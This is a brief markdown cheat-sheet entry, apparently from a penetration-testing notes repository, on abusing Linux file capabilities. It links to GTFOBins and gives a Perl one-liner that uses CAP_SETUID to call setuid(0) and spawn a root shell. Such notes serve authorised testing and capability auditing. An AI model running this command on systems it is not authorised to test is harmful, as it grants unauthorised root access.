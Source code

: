 # Capabilties

Capabilities is a well known attack vector. [GTFOBins](https://gtfobins.github.io/) has lots of really good information about the many UNIX/Linux binaries that can be abused.

#### Perl

[This](https://gtfobins.github.io/gtfobins/perl) section talks about Perl and what you can do with CAP\_SETUID being set.

If it's set:

```bash
/usr/bin/perl = cap_setuid+ep
```

Then do this:

```
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
